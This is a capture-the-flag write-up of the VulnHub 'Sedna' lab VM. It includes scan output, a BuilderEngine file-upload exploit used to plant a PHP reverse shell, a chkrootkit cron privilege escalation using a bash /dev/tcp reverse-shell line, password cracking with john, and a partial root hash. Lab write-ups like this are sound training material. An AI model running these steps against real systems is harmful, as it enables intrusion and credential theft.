

# [[VulnHub] hackfest2016: Sedna](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)

**Date**: 19/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell)  

## Overview
This is a writeup for VulnHub VM [`hackfest2016: Sedna`](https://www.vulnhub.com/entry/hackfest2016-sedna,181/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Sep 18 18:02:06 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.sedna/results/192.168.92.176/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.sedna/results/192.168.92.176/scans/xml/_quick_tcp_nmap.xml 192.168.92.176
Nmap scan report for 192.168.92.176
Host is up, received arp-response (0.0036s latency).
Scanned at 2019-09-18 18:02:07 PDT for 27s
Not shown: 989 closed ports
Reason: 989 resets
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 aa:c3:9e:80:b4:81:15:dd:60:d5:08:ba:3f:e0:af:08 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAMicg98pQuoQKbqtp4SrKqiCeUCdVMojzPj9TQM1ETIkvcGzMqEFSweayAKO/9ZbCVfmzqhU+xt9v42cVYTbuGrLDDTE+Z6cZ2nmTSV92EgDeRMuRQ3E3Gy9oZ6QhFMFetPhDe3uH+KQMo9RUFZJgvckYiaiKYypHL+gxLhXdVGBAAAAFQCxv8bJP8R9Xc8H5k/PuUlMhUt+dQAAAIEAjclDqWZRqhQPIOxth5arD/nhvkFFCfXHWwFh4oJQq82I1NKPpInrii7ihF50clLAs5kI6z/25sw+Hd3+vHz/KMWheh8Z82oiAm0dwOOF4KnGQVW8Ze5XoappS3+OFOJ8mk1StxS8pJzh7/aH+k5S4ehRw8InS9flVxhyiv2Znw8AAACANjD8TA+fEWlpnbK5w61pzJUHc7KyhtS+6+fqR+Q1JKTuc3Yb1ducvdbhXo8/cGJnNlgFG1anlNua6Dp2KzjridXEmXV0yZHfXZKNyCjd1vhKdMz/V3sPlYwtPpIVBS7l1g43henKx7OsnmYG3Om3OpVNQXdHbUmQfrMOrG0vZNk=
|   2048 41:7f:c2:5d:d5:3a:68:e4:c5:d9:cc:60:06:76:93:a5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCfmGWlJ/5I0AIb0AD08vS6WWQDg0/oiZwdFMDmA8yEtHCEvasNfZLnnW4eByrCANMnLGC6lGbbY288m9uP/cISt2cEGolH8p9nwV1pKUc+aAJzkMiBSC0A/0C5o9Pgm7M7Bb1rVykpUQmg/DZp6xEEKMlIOL9vf3uKspiIqkSEFdD6vPKAGy5wPXHosuBkvXrUgo+drp09pT2lqXt8tbNrao2DxHRwkFge/QtfPN319CNMMRyj/st0wj+vlDxUfmMDzvAJcEQMC14B29WEkdfwbLzhbSvcpzIIZ0biNA+E4YMrtL9IlFO/kDN065IJRXPY6OJicM+IhkFdzS0uhREp
|   256 ef:2d:65:85:f8:3a:85:c2:33:0b:7d:f9:c8:92:22:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFOOuNYcmh1lnKXl53anHYpGEM/udK7ham2WOPhuvyZJOUYF/rxlas7KMo+UWZimVAedAUQYy5iq7nJlNjQpxQw=
|   256 ca:36:3c:32:e6:24:f9:b7:b4:d4:1d:fc:c0:da:10:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC2Tab8Mt8xFjZKPwPpXzg2x6a6WhRaWOJCzb+lOrrbE
53/tcp   open  domain      syn-ack ttl 64 ISC BIND 9.9.5-3 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3-Ubuntu
80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp  open  pop3        syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: SASL PIPELINING STLS AUTH-RESP-CODE RESP-CODES TOP CAPA UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2016-10-07T19:17:14
| Not valid after:  2026-10-07T19:17:14
| MD5:   a32c 1b8e 97f3 210f d238 ba3d ac45 74f7
| SHA-1: 0b7b 4229 b7af 8f89 d533 2ecf 5a1f f652 a015 0295
| -----BEGIN CERTIFICATE-----
| MIIDnTCCAoWgAwIBAgIJAOPieD18C1zLMA0GCSqGSIb3DQEBCwUAMGUxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAG
| A1UEAwwJbG9jYWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDAe
| Fw0xNjEwMDcxOTE3MTRaFw0yNjEwMDcxOTE3MTRaMGUxHDAaBgNVBAoME0RvdmVj
| b3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAGA1UEAwwJbG9j
| YWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBANgEPrhbMnoofhkznlgq/qhMB/Pyk0QMB+Ec
| MI3eQIsBxtkr0LnrTOwoZ9R2S6MAFNkXEiZANkgFpNeseIHVPgL4UygvophgEL1t
| GUa9XzQR1qUEvbZxo12/EA4UxRBcqR6kcNhfKZoxbY6mkRGwci2LGo2fuh6oY1+n
| K5Fisu6pVMVD+2Yv7DXNIHDQYVKyicqFeHUoCxA4r6CflEFEqbVftwQLTI7WMfmb
| vhHPVrWaRDaVL8BrQUGZ0SqQeCMGzDb7FKTCuovuA9lgbQVvS4aYgZ5351uPEouP
| dQSP4M9+/oi5EUNhI7rrAwHQTfooufDb5dcUKSkmepxQQj/smBsCAwEAAaNQME4w
| HQYDVR0OBBYEFCQ1pdBP6HsgfOSj4JaO/CL9Rgt4MB8GA1UdIwQYMBaAFCQ1pdBP
| 6HsgfOSj4JaO/CL9Rgt4MAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| ACFvU3t3lscCHV3kHEGt3gN+5sADA9Ks0n6a5SRuwHgjCPtUMUzINeGkPBES/yNL
| R7Zl9bQUj2TSEauenIxGDamCzGNzwpdeyNSPT8Ce6NE+Gv4xarAQlpzg1+c1CUZP
| TKQlrNZ1MYAJMJNebn2zXNPY+o4X0Foda8RzCKHB5c/ErPfQbgxsrWjoZuNY2/pf
| BCab1I91ExaHiIRMjOUNsXae9kZIyFkh2HghKN+/b/fGoYClw0v6U/BFeEAtCwen
| FOOsUuo8V8xwlxGotA/swaAznhE48lbXX5sKSjr19W/EIxPNUueg9Sx4uEBfAEFo
| W+4SElVrFEDdGPE+HYeeBHY=
|_-----END CERTIFICATE-----
|_ssl-date: ERROR: Script execution failed (use -d to debug)
111/tcp  open  rpcbind     syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          40176/tcp  status
|_  100024  1          40863/udp  status
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open  imap        syn-ack ttl 64 Dovecot imapd (Ubuntu)
|_imap-capabilities: ENABLE Pre-login more IDLE listed capabilities IMAP4rev1 post-login LOGIN-REFERRALS ID OK STARTTLS SASL-IR have LITERAL+ LOGINDISABLEDA0001
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2016-10-07T19:17:14
| Not valid after:  2026-10-07T19:17:14
| MD5:   a32c 1b8e 97f3 210f d238 ba3d ac45 74f7
| SHA-1: 0b7b 4229 b7af 8f89 d533 2ecf 5a1f f652 a015 0295
| -----BEGIN CERTIFICATE-----
| MIIDnTCCAoWgAwIBAgIJAOPieD18C1zLMA0GCSqGSIb3DQEBCwUAMGUxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAG
| A1UEAwwJbG9jYWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDAe
| Fw0xNjEwMDcxOTE3MTRaFw0yNjEwMDcxOTE3MTRaMGUxHDAaBgNVBAoME0RvdmVj
| b3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAGA1UEAwwJbG9j
| YWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBANgEPrhbMnoofhkznlgq/qhMB/Pyk0QMB+Ec
| MI3eQIsBxtkr0LnrTOwoZ9R2S6MAFNkXEiZANkgFpNeseIHVPgL4UygvophgEL1t
| GUa9XzQR1qUEvbZxo12/EA4UxRBcqR6kcNhfKZoxbY6mkRGwci2LGo2fuh6oY1+n
| K5Fisu6pVMVD+2Yv7DXNIHDQYVKyicqFeHUoCxA4r6CflEFEqbVftwQLTI7WMfmb
| vhHPVrWaRDaVL8BrQUGZ0SqQeCMGzDb7FKTCuovuA9lgbQVvS4aYgZ5351uPEouP
| dQSP4M9+/oi5EUNhI7rrAwHQTfooufDb5dcUKSkmepxQQj/smBsCAwEAAaNQME4w
| HQYDVR0OBBYEFCQ1pdBP6HsgfOSj4JaO/CL9Rgt4MB8GA1UdIwQYMBaAFCQ1pdBP
| 6HsgfOSj4JaO/CL9Rgt4MAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| ACFvU3t3lscCHV3kHEGt3gN+5sADA9Ks0n6a5SRuwHgjCPtUMUzINeGkPBES/yNL
| R7Zl9bQUj2TSEauenIxGDamCzGNzwpdeyNSPT8Ce6NE+Gv4xarAQlpzg1+c1CUZP
| TKQlrNZ1MYAJMJNebn2zXNPY+o4X0Foda8RzCKHB5c/ErPfQbgxsrWjoZuNY2/pf
| BCab1I91ExaHiIRMjOUNsXae9kZIyFkh2HghKN+/b/fGoYClw0v6U/BFeEAtCwen
| FOOsUuo8V8xwlxGotA/swaAznhE48lbXX5sKSjr19W/EIxPNUueg9Sx4uEBfAEFo
| W+4SElVrFEDdGPE+HYeeBHY=
|_-----END CERTIFICATE-----
|_ssl-date: ERROR: Script execution failed (use -d to debug)
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.1.6-Ubuntu (workgroup: WORKGROUP)
993/tcp  open  ssl/imap    syn-ack ttl 64 Dovecot imapd (Ubuntu)
|_imap-capabilities: ENABLE Pre-login more listed AUTH=PLAINA0001 IMAP4rev1 OK LOGIN-REFERRALS ID capabilities post-login SASL-IR have LITERAL+ IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2016-10-07T19:17:14
| Not valid after:  2026-10-07T19:17:14
| MD5:   a32c 1b8e 97f3 210f d238 ba3d ac45 74f7
| SHA-1: 0b7b 4229 b7af 8f89 d533 2ecf 5a1f f652 a015 0295
| -----BEGIN CERTIFICATE-----
| MIIDnTCCAoWgAwIBAgIJAOPieD18C1zLMA0GCSqGSIb3DQEBCwUAMGUxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAG
| A1UEAwwJbG9jYWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDAe
| Fw0xNjEwMDcxOTE3MTRaFw0yNjEwMDcxOTE3MTRaMGUxHDAaBgNVBAoME0RvdmVj
| b3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAGA1UEAwwJbG9j
| YWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBANgEPrhbMnoofhkznlgq/qhMB/Pyk0QMB+Ec
| MI3eQIsBxtkr0LnrTOwoZ9R2S6MAFNkXEiZANkgFpNeseIHVPgL4UygvophgEL1t
| GUa9XzQR1qUEvbZxo12/EA4UxRBcqR6kcNhfKZoxbY6mkRGwci2LGo2fuh6oY1+n
| K5Fisu6pVMVD+2Yv7DXNIHDQYVKyicqFeHUoCxA4r6CflEFEqbVftwQLTI7WMfmb
| vhHPVrWaRDaVL8BrQUGZ0SqQeCMGzDb7FKTCuovuA9lgbQVvS4aYgZ5351uPEouP
| dQSP4M9+/oi5EUNhI7rrAwHQTfooufDb5dcUKSkmepxQQj/smBsCAwEAAaNQME4w
| HQYDVR0OBBYEFCQ1pdBP6HsgfOSj4JaO/CL9Rgt4MB8GA1UdIwQYMBaAFCQ1pdBP
| 6HsgfOSj4JaO/CL9Rgt4MAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| ACFvU3t3lscCHV3kHEGt3gN+5sADA9Ks0n6a5SRuwHgjCPtUMUzINeGkPBES/yNL
| R7Zl9bQUj2TSEauenIxGDamCzGNzwpdeyNSPT8Ce6NE+Gv4xarAQlpzg1+c1CUZP
| TKQlrNZ1MYAJMJNebn2zXNPY+o4X0Foda8RzCKHB5c/ErPfQbgxsrWjoZuNY2/pf
| BCab1I91ExaHiIRMjOUNsXae9kZIyFkh2HghKN+/b/fGoYClw0v6U/BFeEAtCwen
| FOOsUuo8V8xwlxGotA/swaAznhE48lbXX5sKSjr19W/EIxPNUueg9Sx4uEBfAEFo
| W+4SElVrFEDdGPE+HYeeBHY=
|_-----END CERTIFICATE-----
|_ssl-date: ERROR: Script execution failed (use -d to debug)
995/tcp  open  ssl/pop3    syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: USER PIPELINING SASL(PLAIN) AUTH-RESP-CODE RESP-CODES TOP CAPA UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2016-10-07T19:17:14
| Not valid after:  2026-10-07T19:17:14
| MD5:   a32c 1b8e 97f3 210f d238 ba3d ac45 74f7
| SHA-1: 0b7b 4229 b7af 8f89 d533 2ecf 5a1f f652 a015 0295
| -----BEGIN CERTIFICATE-----
| MIIDnTCCAoWgAwIBAgIJAOPieD18C1zLMA0GCSqGSIb3DQEBCwUAMGUxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAG
| A1UEAwwJbG9jYWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDAe
| Fw0xNjEwMDcxOTE3MTRaFw0yNjEwMDcxOTE3MTRaMGUxHDAaBgNVBAoME0RvdmVj
| b3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAGA1UEAwwJbG9j
| YWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBANgEPrhbMnoofhkznlgq/qhMB/Pyk0QMB+Ec
| MI3eQIsBxtkr0LnrTOwoZ9R2S6MAFNkXEiZANkgFpNeseIHVPgL4UygvophgEL1t
| GUa9XzQR1qUEvbZxo12/EA4UxRBcqR6kcNhfKZoxbY6mkRGwci2LGo2fuh6oY1+n
| K5Fisu6pVMVD+2Yv7DXNIHDQYVKyicqFeHUoCxA4r6CflEFEqbVftwQLTI7WMfmb
| vhHPVrWaRDaVL8BrQUGZ0SqQeCMGzDb7FKTCuovuA9lgbQVvS4aYgZ5351uPEouP
| dQSP4M9+/oi5EUNhI7rrAwHQTfooufDb5dcUKSkmepxQQj/smBsCAwEAAaNQME4w
| HQYDVR0OBBYEFCQ1pdBP6HsgfOSj4JaO/CL9Rgt4MB8GA1UdIwQYMBaAFCQ1pdBP
| 6HsgfOSj4JaO/CL9Rgt4MAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| ACFvU3t3lscCHV3kHEGt3gN+5sADA9Ks0n6a5SRuwHgjCPtUMUzINeGkPBES/yNL
| R7Zl9bQUj2TSEauenIxGDamCzGNzwpdeyNSPT8Ce6NE+Gv4xarAQlpzg1+c1CUZP
| TKQlrNZ1MYAJMJNebn2zXNPY+o4X0Foda8RzCKHB5c/ErPfQbgxsrWjoZuNY2/pf
| BCab1I91ExaHiIRMjOUNsXae9kZIyFkh2HghKN+/b/fGoYClw0v6U/BFeEAtCwen
| FOOsUuo8V8xwlxGotA/swaAznhE48lbXX5sKSjr19W/EIxPNUueg9Sx4uEBfAEFo
| W+4SElVrFEDdGPE+HYeeBHY=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http        syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
MAC Address: 00:0C:29:53:40:6E (VMware)
Service Info: Host: SEDNA; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m48s, deviation: 2h18m34s, median: -12s
| nbstat: NetBIOS name: SEDNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SEDNA<00>            Flags: <unique><active>
|   SEDNA<03>            Flags: <unique><active>
|   SEDNA<20>            Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 37004/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19405/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 47650/udp): CLEAN (Timeout)
|   Check 4 (port 64850/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Unix (Samba 4.1.6-Ubuntu)
|   NetBIOS computer name: SEDNA\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-18T21:02:13-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-18 18:02:13
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 18:02:34 2019 -- 1 IP address (1 host up) scanned in 27.71 seconds

```

2\. From the Nikto scan report we see that there is a `license.txt` file that could be interesting. We take a look at the file and find `Copyright (c) 2012 - 2015 BuilderEngine / Radian Enterprise Systems Limited.` message in it indicating installation of `BuilderEngine` application:  
``` {.python .numberLines}
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.92.176
+ Target Hostname:    192.168.92.176
+ Target Port:        80
+ Start Time:         2019-09-18 18:02:37 (GMT-7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x65 0x53fb059bb5bc8 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /files/: Directory indexing found.
+ OSVDB-3092: /files/: This might be interesting...
+ OSVDB-3092: /system/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ 7536 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2019-09-18 18:03:34 (GMT-7) (57 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp     |  ssh          |  OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
53/tcp     |  domain       |  ISC BIND 9.9.5-3 (Ubuntu Linux)
80/tcp     |  http         |  Apache httpd 2.4.7 ((Ubuntu))
110/tcp    |  pop3         |  Dovecot pop3d
111/tcp    |  rpcbind      |  2-4 (RPC #100000)
137/udp    |  netbios-ns?  |
139/tcp    |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp    |  imap         |  Dovecot imapd (Ubuntu)
445/tcp    |  netbios-ssn  |  Samba smbd 4.1.6-Ubuntu (workgroup: WORKGROUP)
993/tcp    |  ssl/imap     |  Dovecot imapd (Ubuntu)
995/tcp    |  ssl/pop3     |  Dovecot pop3d
8080/tcp   |  http         |  Apache Tomcat/Coyote JSP engine 1.1
40176/tcp  |  status       |  1 (RPC #100024)
```
#### Files
``` {.python .numberLines}
http://192.168.92.176/license.txt
```

\newpage
## Phase #2: Exploitation
1\. There's an arbitrary file upload [exploit](https://www.exploit-db.com/exploits/40390) for `BuilderEngine` that we can use:  
``` {.python .numberLines}
searchsploit builderengine

```

  

2\. The exploit needs an update to point to the right `BuilderEngine` url and then it can be used to `POST` a local file to the target server. We use this exploit to upload a PHP reverse shell, note the location of uploaded file, start a local `netcat` listener and trigger file execution to catch incoming reverse shell:  
``` {.python .numberLines}
http://192.168.92.176/themes/dashboard/assets/plugins/jquery-file-upload/server/php/
nc -nlvp 9999
http://192.168.92.176/files/php-reverse-shell.php

```

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@Sedna> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Sedna>  
www-data@Sedna> uname
Linux Sedna 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
www-data@Sedna>  
www-data@Sedna> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:53:40:6e
      inet addr:192.168.92.176  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fe53:406e/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:625597 errors:6 dropped:7 overruns:0 frame:0
      TX packets:488807 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:63714580 (63.7 MB)  TX bytes:133375349 (133.3 MB)
      Interrupt:19 Base address:0x2000
www-data@Sedna>  
www-data@Sedna> users
crackmeforpoints
```

\newpage
## Phase #3: Privilege Escalation
1\. While exploring `/var/www` directory we find the first flag:  
``` {.python .numberLines}
cat /var/www/flag.txt

```

  

2\. We look for presence of `chkrootkit` shell script and find at `/etc/chkrootkit/chkrootkit`:  
``` {.python .numberLines}
find / -type f -name chkrootkit 2>/dev/null
file /etc/chkrootkit/chkrootkit

```

  

3\. We find a local privilege escalation exploit for `chkrootkit` using `searchsploit` and look at steps to use this:  
``` {.python .numberLines}
searchsploit chkrootkit
searchsploit -x 33899

```

  

  

4\. For the exploit to work, we create a `/tmp/update` file, assign executable permissions to it and add a Bash reverse shell command to it:  
``` {.python .numberLines}
touch /tmp/update
chmod +x /tmp/update
printf "bash -i >& /dev/tcp/192.168.92.163/443 0>&1 \n" >/tmp/update
cat /tmp/update
  bash -i >& /dev/tcp/192.168.92.163/443 0>&1

```

  

5\. Once `chkrootkit` shell script excutes via `cronjob`, it will also run `/tmp/update` file with `root` privileges giving us an elevated shell:  
``` {.python .numberLines}
nc -nlvp 443

```

  

6\. We then get the second flag at `/root/flag.txt`:  
``` {.python .numberLines}
cat /root/flag.txt

```

  

7\. While exploring `/etc/tomcat7` directory we come across third flag:  
``` {.python .numberLines}
cat /etc/tomcat7/tomcat-users.xml

```

  

8\. To obtain fourth and final flag, we need to crack hash for user `crackmeforpoints`. We created a wordlist from `https://en.wikipedia.org/wiki/90377_Sedna` and tried bruteforcing but it failed. We then tried bruteforcing using the `rockyou.txt` wordlist but it didn't complete on time:  
``` {.python .numberLines}
cewl -m 4 -w dict.txt "https://en.wikipedia.org/wiki/90377_Sedna"
unshadow passwd shadow >unshadowed ; john --rules --wordlist=./dict.txt unshadowed
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed

```

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$sZyJlUny$OcHP9bd8dO9rAKAlryxUjnUbH0dxgZc2uCePZMUUKSeIdALUulXLQ1iDjoEQpvZI.HTHOHUkCR.m39Xrt........................
